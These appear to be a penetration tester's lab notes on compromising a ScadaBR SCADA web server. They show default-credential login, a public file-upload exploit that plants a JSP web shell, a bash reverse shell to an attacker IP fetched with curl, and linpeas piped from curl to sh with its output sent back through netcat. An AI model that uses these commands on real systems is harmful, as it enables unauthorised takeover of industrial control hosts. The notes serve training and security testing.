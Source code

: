 Got web page via cobalt strike port scan, navigated and saw login screen
![[Pasted image 20240614160244.png]]
logged in with admin admin credentials
![[Pasted image 20240614160822.png]]
### searchsploit scadabr
- found exploit for authenticated file upload, read it and saw that it is a web shell
#searchsploit #scadabr
```bash
┌──(kali㉿gobots)-[14Jun2024 20:04:08]-[~/SUT/Alchemy]
└─$ searchsploit scadabr  
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
ScadaBR 1.0 - Arbitrary File Upload (Authenticated) (1)             | windows/webapps/49734.py
ScadaBR 1.0 - Arbitrary File Upload (Authenticated) (2)             | linux/webapps/49735.py
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```
### Web Shell
- utilized the exploit and was able to get a web shell
#webshell 
```bash
──(kali㉿gobots)-[14Jun2024 20:00:33]-[~/SUT/Alchemy/172.16.0.20]                                                                                                                                           
└─$ proxychains python2 49734.py 172.16.0.20 80 admin admin                                                                                                                                                  
[proxychains] config file found: /etc/proxychains4.conf                                                                                                                                                      
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4                                                                                                                                       
[proxychains] DLL init: proxychains-ng 4.17                                                                                                                                                                  

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|    _________                  .___     ____________________       |
|   /   _____/ ____ _____     __| _/____ \______   \______   \      |
|   \_____  \_/ ___\__  \   / __ |\__  \ |    |  _/|       _/       |
|   /        \  \___ / __ \_/ /_/ | / __ \|    |   \|    |   \      |
|  /_______  /\___  >____  /\____ |(____  /______  /|____|_  /      |
|          \/     \/     \/      \/     \/       \/        \/       |
|                                                                   |
|    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload | 
|    > Exploit Author : Fellipe Oliveira                            |
|    > Exploit for Windows Systems                                  |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Trying to authenticate http://172.16.0.20:80/ScadaBR/login.htm...
[+] Successfully authenticated! :D~

[>] Attempting to upload .jsp Webshell...
[>] Verifying shell upload...

[+] Upload Successfuly!
[+] Webshell Found in: http://172.16.0.20:80/ScadaBR/uploads/1.jsp
[>] Spawning fake shell...
# whoami
aepike

```
### Wget testing
- tested ability to grab files from kali machine - able to grab files. Probably can upload msfvenom reverse shell and start from there.
![[Pasted image 20240614160645.png]]
![[Pasted image 20240614160724.png]]
### Created Reverse shell
```bash
┌──(root💀gobots)-[17Jun2024 16:59:14]-[/home/kali/SUT/Alchemy/172.16.0.20]
└─# cat rev2.sh               
/bin/bash -i >& /dev/tcp/10.10.14.39/4545 0>&1
```
#### Hosted HTTP server
![[Pasted image 20240617145351.png]]
#### Curling reverse shell
- Utilized the web shell to pull over `rev2.sh` which is a bash reverse shell, the working directory wasnt writeable so must write to `/tmp/`
- `curl http://10.10.14.39:8000/rev2.sh -o /tmp/rev2.sh`
![[Pasted image 20240617145559.png]]
#### Executing reverse shell in web shell
![[Pasted image 20240617145624.png]]
#### Setting up Netcat listener on Kali Machine
- not a tty, no job control
![[Pasted image 20240617145812.png]]
##### TTY shell upgrade
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
![[Pasted image 20240617145943.png]]

##### linpeas in memory
- setting up netcat listener in normal terminal on attacker kali
- `nc -lvnp 9002 | tee linpeas.out`
![[Pasted image 20240617150227.png]]
- curling and executing linpeas
```bash
aepike@scada:~$ curl 10.10.14.39:8000/linpeas.sh | sh | nc 10.10.14.39 9002                                                                                 
curl 10.10.14.39:8000/linpeas.sh | sh | nc 10.10.14.39 9002                                                                                                                                                 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                               
100   335  100   335    0     0   6090      0 --:--:-- --:--:-- --:--:--  6090                                                                                                                             
```